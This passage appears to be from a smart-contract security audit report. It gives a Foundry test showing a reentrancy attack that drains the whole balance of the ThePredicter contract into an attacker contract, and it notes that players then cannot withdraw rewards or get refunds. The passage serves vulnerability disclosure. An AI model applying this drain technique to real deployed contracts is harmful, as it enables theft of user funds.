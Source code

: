 Add the following code to `ThePredicter.test.sol`

```Solidity

function test_reentrancyLoop() public {

        ReentrancyAttacker attacker = new ReentrancyAttacker(
            address(thePredicter)
        );

        address player1 = makeAddr("player1");
        address player2 = makeAddr("player2");
        address player3 = makeAddr("player3");

        vm.startPrank(player1);
        vm.deal(player1, 1 ether);
        thePredicter.register{value: 0.04 ether}();
        vm.stopPrank();

        vm.startPrank(player2);
        vm.deal(player2, 1 ether);
        thePredicter.register{value: 0.04 ether}();
        vm.stopPrank();

        vm.startPrank(player3);
        vm.deal(player3, 1 ether);
        thePredicter.register{value: 0.04 ether}();
        vm.stopPrank();

        vm.deal(address(attacker), 1 ether);

        uint256 startingPredicterBalance = address(thePredicter).balance;
        uint256 startingAttackerBalance = address(attacker).balance;

        attacker.attack();

        uint256 endingPredicterBalance = address(thePredicter).balance;
        uint256 endingAttackerBalance = address(attacker).balance;

        assertEq(endingAttackerBalance, startingPredicterBalance + startingAttackerBalance);
        assertEq(endingPredicterBalance, 0);
    }

```

## Impact

* When users go to claim their rewards from `ThePredicter::withdraw`, the contract balance will be 0 preventing users from claiming any rewards they are eligible for
* Any user that wishes to cancel their registration and receive a refund will be unable to do so as the contract will have no balance to repay
